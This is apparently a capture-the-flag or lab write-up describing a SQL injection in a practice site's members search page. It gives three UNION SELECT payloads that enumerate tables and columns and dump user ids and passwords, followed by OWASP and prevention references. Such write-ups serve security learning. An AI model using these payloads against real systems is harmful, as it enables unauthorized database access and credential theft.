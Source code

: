 # SQL injection (members page)

To exploit, go to the `http://addr/index.php?page=member` and write the following commands at the search field:

List all the tables and related databases:
```
1 union select table_name, table_schema from information_schema.tables
```

List all table columns and related table names:
```
1 union select column_name, table_name from information_schema.columns
```

List id, countersign and comment from users table:
```
1 union select 1, concat(user_id, char(124), countersign, char(124), Commentaire) from Member_Sql_Injection.users
```

## References
- [Information_schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html) structure
- [SQL Injection Attack — OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLi Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLi payload examples — PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
